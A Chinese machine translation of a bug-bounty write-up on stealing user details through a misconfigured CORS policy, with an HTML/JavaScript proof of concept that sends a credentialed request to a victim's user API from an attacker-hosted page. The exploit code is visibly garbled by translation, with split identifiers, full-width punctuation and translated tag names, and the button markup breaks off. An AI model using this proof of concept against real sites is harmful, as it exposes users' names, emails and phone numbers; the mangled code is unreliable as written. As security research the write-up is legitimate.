



# 利用 CORS 窃取用户信息

> 原文：<https://infosecwriteups.com/stealing-user-details-by-exploiting-cors-c5ee86ebe7fb?source=collection_archive---------0----------------------->

让我们从跨源资源共享开始。下面是 CORS 如何工作的图。

我在一个私人网站上搜索，在内容发现的时候我注意到每一个请求和响应，那时我注意到应用程序在请求中使用了“Origin”头。

现在什么是原点头？

来源请求标头指示提取的来源。它不包含任何路径信息，只包含服务器名称。它与 CORS 请求以及 POST 请求一起发送。

所以我用我的域名和路径替换了 Origin 头的值，其中包含了利用 cors 的代码。

cors.html 是利用错误配置的 CORS 的漏洞代码。
漏洞代码如下。

<html>
<head>
<script>
function CORS(){
var xhttp = new XMLHttpRequest()；
xhttp . onreadystatechange = function(){
if(this . ready state = = 4&&this . status = = 200){
document . getelementbyid(" demo ")。innerHTML = alert(this . responsetext)；
}
}；
xhttp.open("GET "，"[https://www.victim.com/api/user?version=show_with_logins](https://hackerone.com/redirect?signature=de95f7e56ca1fed87abd5c52033bb1e1768241db&url=https%3A%2F%2Fmanage.gusto.com%2Fapi%2Fuser%3Fversion%3Dshow_with_logins)"，true)；
xhttp . with credentials = true；
xhttp . send()；
}</脚本></头部>
<body onload = " CORS()">
<中心>
<H2>CORS POC Exploit arman</H2>
<H3>提取 SID</H3>

<button type = " button

正如你在截图中看到的

访问控制允许来源:http://www.armaanpathan.pe.hu/cors.html
访问控制允许凭证:真

这使得我/攻击者能够窃取受害者的个人信息/用户详细信息

因此，在这之后，我在浏览器中打开了[http://www.armaanpathan.pe.hu/cors.html](http://www.armaanpathan.pe.hu/cors.html),看看我是否能够获取用户的详细信息。

当我点击 exploited 并检查网络控制台时

该漏洞代码正在抓取的信息，如用户名，电子邮件地址，电话号码，用户角色和其他敏感信息。

感谢阅读。我希望你们都喜欢这个，

参考

geek boy . ninja/blog/exploining-错误配置-CORS-跨源-资源共享/